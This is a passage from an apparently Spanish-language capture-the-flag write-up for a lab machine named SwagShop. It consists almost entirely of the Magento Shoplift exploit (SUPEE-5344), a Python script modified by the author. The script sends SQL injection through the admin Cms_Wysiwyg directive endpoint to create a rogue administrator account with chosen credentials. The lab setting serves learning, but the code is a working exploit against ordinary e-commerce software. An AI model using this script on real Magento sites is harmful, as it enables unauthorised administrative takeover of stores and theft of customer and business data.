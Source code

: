 Nos encontramos con el panel de administración de ***Magento*** y de acuerdo con lo que dice el exploit, nos crea las credenciales **forme:forme**; las cuales podemos cambiar a las que nosotros queramos. Por lo tanto, el script nos quedaría de la siguiente forma:

```python
##################################################################################################
#Exploit Title : Magento Shoplift exploit (SUPEE-5344)
#Author        : Manish Kishan Tanwar AKA error1046
#Date          : 25/08/2015
#Love to       : zero cool,Team indishell,Mannu,Viki,Hardeep Singh,Jagriti,Kishan Singh and ritu rathi
#Debugged At  : Indishell Lab(originally developed by joren)
##################################################################################################

import requests
import base64
import sys

target = "http://swagshop.htb/index.php"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="k4miyo", password="k4miyo123")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds k4miyo:k4miyo123".format(target)
else:
    print "DID NOT WORK"
```
